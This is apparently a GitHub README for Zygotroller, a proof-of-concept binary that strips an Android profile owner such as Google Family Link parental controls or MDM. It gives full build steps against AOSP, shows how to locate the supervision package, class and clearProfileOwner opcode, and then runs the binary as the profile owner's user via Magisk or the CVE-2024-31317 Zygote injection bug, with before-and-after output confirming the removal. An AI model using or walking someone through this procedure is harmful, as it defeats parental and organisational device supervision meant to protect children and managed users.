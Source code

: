 # Zygotroller
Zygotroller is a proof-of-concept that shows how to remove an Android profile owner (used for parental controls or MDM) if you can become the user of the profile owner, for example, with CVE-2024-31317's Zygote injection bug, or Magisk.

Google's parental control system, Family Link, is shown as an example in this repo.

I won't be including how to use this with CVE-2024-31317 here because it doesn't fall under the scope of this guide. If you are interested in using this in a real world scenario, I recommend you take a look at [this repo](https://github.com/agg23/cve-2024-31317) for some blogs and details regarding how to use that CVE. At a high level, you need to rename the Zygotroll binary to `libSOMETHING.so` (replacing 'SOMETHING' with whatever you want), and include it in an APK so that SELinux allows the file to be executed. You will need developer mode+app installs enabled if planning on using this in a real world scenario.

The rest of the guide will assume you are using a rooted, supervised device with magisk. If you are not rooted, look into CVE-2024-31317.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`aosp_cf_x86_64_only_phone-aosp_current-eng` (if not compiling for emulator, change to use the arm version)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Push this to your device: `adb push ~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller /data/local/tmp`

Set correct permissions `adb shell chmod +x /data/local/tmp/zygotroller`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now switch to that user with something like Magisk or CVE-2024-31317. The username will be "u0_" + the last 2 numbers you got from the user id.

Example for magisk: `su u0_a90` (your username may or may not be different, make sure to replace mine with the correct one!)

Now run Zygotroller!
`/data/local/tmp/zygotroller`

You should see that the Family Link profile owner has been removed.

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```

## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)